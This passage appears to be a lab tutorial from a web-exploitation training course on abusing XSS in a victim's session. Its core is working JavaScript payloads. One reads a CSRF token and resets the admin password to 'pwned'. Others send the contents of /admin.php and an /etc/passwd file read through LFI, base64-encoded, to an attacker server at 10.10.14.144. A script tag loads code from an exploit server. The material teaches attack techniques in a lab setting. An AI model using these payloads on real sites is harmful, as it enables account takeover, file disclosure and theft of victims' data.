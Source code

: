 # Launching Attacks from the Victim's Session

After discussing how to exfiltrate data from the victim's user context with an XSS vulnerability, we will explore how to trigger potentially state-changing actions. As XSS gives us complete control over the victim's session, we can trigger any functionality the web application implements in the victim's user context. This can lead to a complete account takeover of the victim's account or enable further attack vectors.

Since this module is not about identifying XSS vulnerabilities but rather about writing powerful XSS exploits, we will discuss the same vulnerable web application we have seen in previous sections.

## Account Takeover

This time, our sample web application contains a function to update the user's profile, including the user's password:

```
https://victim-session.htb/home.php
Profile update form with fields for username, email, and password, and a submit button.
```
Updating the profile is implemented using the following HTTP request:

`HTTP POST request to /home.php with user details and CSRF token; response shows success message 'User updated successfully.'`

Since updating the account's password does not require the old password, we can use the known XSS vulnerability to change the victim's password. This enables us to log in to the victim's account, resulting in a complete takeover. The form is protected using a CSRF token, but since there is an XSS vulnerability, we can read the CSRF token and add it to the request.

To achieve this, let us use the same XSS exploit we have used in previous sections that loads JavaScript code from the exploit server:

```html
<script src="https://exploitserver.htb/exploit"></script>
```
Afterward, we can make a GET request to `/home.php` to get a valid CSRF token, extract it, and subsequently make the POST request to change the victim's password to `pwned`.

```js
// GET CSRF token
var xhr = new XMLHttpRequest();
xhr.open('GET', '/home.php', false);
xhr.withCredentials = true;
xhr.send();
var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(doc.getElementById('csrf_token').value);

// change PW
var csrf_req = new XMLHttpRequest();
var params = `username=admin&email=admin@vulnerablesite.htb&password=pwned&csrf_token=${csrftoken}`;
csrf_req.open('POST', '/home.php', false);
csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
csrf_req.withCredentials = true;
csrf_req.send(params);
```
After waiting for the admin user to trigger the XSS, we can log in to the victim's account with the credentials `admin:pwned`.

## Chaining Vulnerabilities

As we have seen above, we can abuse XSS vulnerabilities to trigger any functionality within the web application from the victim's user context. We can go one step further and chain multiple vulnerabilities by exploiting a different vulnerability in the web application in an endpoint only accessible by the victim.

To do so, we first need to analyze the web application from the victim's point of view, identify endpoints the victim can access that we cannot access with our own user account, and finally, test and exploit any vulnerabilities we identify through our XSS payload.

We will again use the same base XSS payload that enables us to customize the exploit on the exploit server:

```html
<script src="https://exploitserver.htb/exploit"></script>
```
Exfiltrating the `/home.php` endpoint from the victim's user context reveals the endpoint `/admin.php`, which is not accessible by our user:

`HTTP GET request to /admin.php with session cookie; response shows 302 redirect to home.php.`

To identify data displayed in the admin endpoint, we can use the same payload we have used in the previous section to exfiltrate the response:

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', '/admin.php', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://10.10.14.144:4443/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
This reveals the following HTML response:

`HTML section with an image, 'Administrator Dashboard' title, and buttons to view different front page designs: White, Red, Blue.`

Analyzing the HTML source code, the admin endpoint seems to support the GET parameter `view`, which can be set to different files in the current working directory. This is an obvious entry point for a Local File Inclusion (LFI) vulnerability. To test our hypothesis, let us adjust our payload to include the file `/etc/passwd`:

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', '/admin.php?view=../../../../etc/passwd', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://10.10.14.144:4443/lfi?r=" + btoa(xhr.responseText), false);
exfil.send();
```
After waiting for the victim to trigger the XSS vulnerability again, we get the following response to our exfiltration server, containing our leaked file:

`HTML section with buttons for different views and a list of system user accounts and their details.`

Note: We can save the HTML code to a local file and open it in a web browser to display the page. This may require us to leak additional files, such as script files or stylesheets, to render the page correctly.
